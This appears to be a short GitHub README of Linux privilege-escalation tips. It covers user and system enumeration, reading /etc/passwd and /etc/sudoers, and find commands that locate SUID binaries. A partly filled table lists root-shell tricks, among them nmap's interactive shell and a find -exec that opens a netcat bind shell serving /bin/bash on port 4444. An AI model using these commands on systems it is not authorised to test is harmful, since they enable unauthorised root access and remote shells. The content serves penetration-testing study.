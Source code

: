 # Linux-Privilege-Escalation
Tips and Tricks for Linux Priv Escalation

## Start with the basics

Who am i?  
`id`

Who else is on this box (lateral movement)?  
`ls -la /home`  
`cat /etc/passwd`  

What Kernel version and distro are we working with here?  
`uname -a`  
`cat /etc/issue`  

What files and folders are in my home user's directory?  
`ls -la ~`

## Next focus on what we can EXECUTE

Who can execute code as root (probably will get a permission denied)?  
`cat /etc/sudoers`

Can I execute code as root (you will need the user's password)?  
`sudo -l`

What executables have SUID bit that can be executed as another user?
`find / -user root -perm -4000 -print 2>/dev/null`  
`find / -perm -u=s -type f 2>/dev/null`  
`find / -user root -perm -4000 -exec ls -ldb {} \;`  


If any of the following commands appear on the list of SUID or SUDO commands, they can be used for privledge escalation

| SUID / SUDO Executables            | Priv Esc Command                                                              |
|------------------------------------|-------------------------------------------------------------------------------|
| nmap (older versions 2.02 to 5.21) | nmap --interactive !sh                                                        |
| awk                                |                                                                               |
| python                             |                                                                               |
| perl                               |                                                                               |
| find                               | `find /home -exec nc -lvp 4444  -e /bin/bash \;<br>  find /home -exec /bin/bash \;` |
| xxd                                |                                                                               |
| vi                                 |                                                                               |
| bash                               |                                                                               |
| more                               |                                                                               |
| less                               |                                                                               |
| nano                               |                                                                               |
| cp                                 |                                                                               |
